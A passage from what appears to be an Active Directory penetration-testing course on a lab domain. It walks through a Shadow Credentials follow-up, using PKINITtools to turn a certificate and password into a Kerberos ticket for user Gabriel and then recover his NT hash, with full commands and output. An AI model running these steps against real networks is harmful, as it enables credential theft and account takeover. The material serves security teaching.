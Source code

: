 The output provides us with three essential things: the `KeyCredential DeviceID,` the name of the certificate (in this case, `BX4EWk8m.pfx`), and the certificate's password `KQAx5lHP3h9TtzNly2Us`. We can use those values with `PKINITtools` to get a TGT as `Gabriel`, but before that, let's install `PKINITtools`:

```shell
git clone -q https://github.com/dirkjanm/PKINITtools
pip3 install impacket minikerberos
Requirement already satisfied: impacket in /usr/local/lib/python3.9/dist-packages/impacket-0.11.0-py3.9.egg (0.11.0)
Collecting Minikerberos
 Downloading minikerberos-0.4.4-py3-none-any.whl (147 kB)
   |████████████████████████████████| 147 kB 1.8 MB/s
...SNIP...

```

`gettgtpkinit.py` is one of the tools available in `PKINITtools`, that will help us generate the TGT. We will use the option `-cert-pfx <certificate file>` as well `-pfx-pass <password>` to specify the password, and finally the value of `domain/username` and the ccache filename:

```shell
python3 gettgtpkinit.py -cert-pfx ../pywhisker/BX4EWk8m.pfx -pfx-pass KQAx5lHP3h9TtzNly2Us lab.local/gabriel gabriel.ccache
2024-02-15 12:53:15,655 minikerberos INFO  Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-02-15 12:53:15,667 minikerberos INFO  Requesting TGT
INFO:minikerberos:Requesting TGT
2024-02-15 12:53:15,954 minikerberos INFO  AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-02-15 12:53:15,954 minikerberos INFO  46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a
INFO:minikerberos:46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a
2024-02-15 12:53:15,956 minikerberos INFO  Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

If we provide the correct parameters, we will have a file named `gabriel.ccache` that represents the TGT to be used in Linux. The output of `gettgtpkinit.py` also has the `AS-REP encryption key` we can use to decrypt the ticket and extract Gabriel's NT Hash. We need to use the tool `getnthash.py` available in `PKINITtools` and add the option `-key <key>`, and we also need to use the TGT. To do that we will use `KRB5CCNAME=gabriel.ccache` before running Python, so the following command uses this variable and loads the TGT:

```shell
KRB5CCNAME=gabriel.ccache python3 getnthash.py -key 46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a lab.local/gabriel
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
2d1da879ca7100325629...SNIP...

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname